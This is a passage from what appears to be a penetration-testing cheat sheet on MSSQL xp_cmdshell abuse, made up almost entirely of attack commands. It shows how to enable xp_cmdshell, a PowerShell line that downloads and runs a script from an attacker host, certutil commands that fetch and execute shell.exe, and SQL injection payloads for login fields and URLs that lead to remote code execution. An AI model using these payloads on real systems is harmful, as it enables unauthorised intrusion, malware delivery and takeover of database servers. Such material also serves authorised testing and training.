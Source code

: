 #### Execute Script HTTP Server

```c
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://<LHOST>/<SCRIPT>.ps1\");"
```

#### Start xp_cmdshell via MSSQL

```c
SQL> EXEC sp_configure 'Show Advanced Options', 1;
SQL> reconfigure;
SQL> sp_configure;
SQL> EXEC sp_configure 'xp_cmdshell', 1;
SQL> reconfigure
SQL> xp_cmdshell "whoami"
```

##### Alternative Way to start xp_cmdshell

```c
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
```

#### Import PowerShell Scripts and execute Commands

##### Without Authentication

```c
SQL> xp_cmdshell powershell -c import-module C:\PATH\TO\FILE\<FILE>.ps1; <FILE> <OPTIONS>
```

##### With Authentication

```c
SQL> xp_cmdshell "powershell $cred = New-Object System.Management.Automation.PSCredential(\"<USERNAME>\",\"<PASSWORD>\");Import-Module C:\PATH\TO\FILE\<FILE>.ps1;<FILE> <OPTIONS>
```

#### MSSQL SQL Injection (SQLi) to Remote Code Execution (RCE) on a Logon Field

```c
';EXEC master.dbo.xp_cmdshell 'ping <LHOST>';--
';EXEC master.dbo.xp_cmdshell 'certutil -urlcache -split -f http://<LHOST>/shell.exe C:\\Windows\temp\<FILE>.exe';--
';EXEC master.dbo.xp_cmdshell 'cmd /c C:\\Windows\\temp\\<FILE>.exe';--
```

#### MSSQL SQL Injection (SQLi) to Remote Code Execution (RCE) in URL

```c
http://<RHOST>/index.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```
